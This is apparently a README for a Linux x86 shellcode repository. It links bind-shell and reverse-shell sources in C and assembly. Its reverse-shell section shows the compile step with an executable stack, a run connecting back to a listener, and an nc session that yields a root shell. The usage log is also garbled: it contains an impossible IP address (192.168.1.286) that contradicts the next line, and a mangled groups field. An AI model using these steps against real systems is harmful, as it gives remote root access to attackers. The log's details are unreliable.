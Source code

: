 # Linux-x86
## Linux/x86 - Shell (/bin/sh)



<div align="center" style="font-size:30px">

# ***Tree***
 ---
#  Linux-x86
#     ╔═════════╩═════════╗
#  [Bind-Shellcode](Bind-Shellcode/README.md)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;[Reverse-Shell](Reverse-Shell/README.md) 
#   ╔══════╩══════╗&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;╔══════╩══════╗
## [Bind-Shellcode.c](Bind-Shellcode/Bind-Shellcode.c)&#160;&#160;&#160;&#160;&#160;[Bind-Shellcode.asm](Bind-Shellcode/Bind-Shellcode.asm)    &#160;&#160;&#160;&#160;&#160;[Reverse-Shell.c](Reverse-Shell/Reverse-Shell.c)&#160;&#160;&#160;&#160;&#160;[Reverse-Shell.asm](Reverse-Shell/Reverse-Shell.asm) 
</div>

---

# [Bind-Shellcode](Bind-Shellcode/README.md)

# Linux-x86/Bind-Shellcode
---

# [Reverse-Shell](Reverse-Shell/README.md)

# Linux-x86/Reverse-Shell

        Linux/x86 Reverse TCP Shell with dynamic IP and port binding Shellcode (tested on Ubuntu 12.04 LTS)
        Usage: gcc -z execstack -o shell_reverse_tcp shell_reverse_tcp.c
        $ ./shell_reverse_tcp_shellcode 192.168.1.286 4443
        Connecting to 192.168.1.198 (0xec01a8c0):4443 (0x115c)
        Byte 26: c0
        Byte 27: a8
        Byte 28: 01
        Byte 29: ec
 
        $ nc -nlv 4443
        Listening on 0.0.0.0 4443
        Connection received on 192.168.1.286 45219
        id
        uid=0(root) gid=0(root) groups=0(root)es)

